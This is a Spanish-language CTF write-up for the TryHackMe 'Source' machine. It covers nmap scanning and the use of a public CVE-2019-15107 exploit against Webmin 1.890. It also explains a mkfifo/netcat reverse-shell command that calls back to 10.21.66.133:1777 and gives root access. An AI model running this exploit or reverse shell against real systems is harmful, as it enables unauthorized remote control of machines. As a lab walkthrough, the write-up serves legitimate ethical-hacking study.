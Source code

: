 ```yaml
---
title: 'Source - TryHackMe'
description: "n esta ocasión, abordaremos la máquina Source de la plataforma TryHackMe. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados."
pubDate: 'Oct 15 2024'
categories: ['WriteUp', 'TryHackMe', 'CTF']
--- 
```


## Introducción

**[TryHackMe](https://tryhackme.com/p/Yw4rf)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.

![Source yw4rf](../../../assets/TryHackMe/source/source-tryhackme.png)

```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

![Source yw4rf](../../../assets/TryHackMe/source/source-1.png)

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

![Source yw4rf](../../../assets/TryHackMe/source/source-2.png)

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Source yw4rf](../../../assets/TryHackMe/source/source-3.png)

## Enumeration (Enumeración)

##### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

##### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.

![Source yw4rf](../../../assets/TryHackMe/source/source-4.png)

Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 

![Source yw4rf](../../../assets/TryHackMe/source/source-5.png)

Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo

![Source yw4rf](../../../assets/TryHackMe/source/source-6.png)

Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.

![Source yw4rf](../../../assets/TryHackMe/source/source-7.png)

Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder

![Source yw4rf](../../../assets/TryHackMe/source/source-8.png)

Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**

![Source yw4rf](../../../assets/TryHackMe/source/source-9.png)

Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 

![Source yw4rf](../../../assets/TryHackMe/source/source-10.png)

## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921

![Source yw4rf](../../../assets/TryHackMe/source/source-11.png)

Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**

![Source yw4rf](../../../assets/TryHackMe/source/source-12.png)

Luego de convertir la URL, lo descargo con `wget` 

![Source yw4rf](../../../assets/TryHackMe/source/source-13.png)

Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos

![Source yw4rf](../../../assets/TryHackMe/source/source-14.png)

Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina

![Source yw4rf](../../../assets/TryHackMe/source/source-15.png)

Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:

![Source yw4rf](../../../assets/TryHackMe/source/source-16.png)

- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-17.png)

Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.

![Source yw4rf](../../../assets/TryHackMe/source/source-18.png)

![Source yw4rf](../../../assets/TryHackMe/source/source-19.png)

Una vez tratada la tty verificamos si somos **root**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-20.png)

Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**.


<br>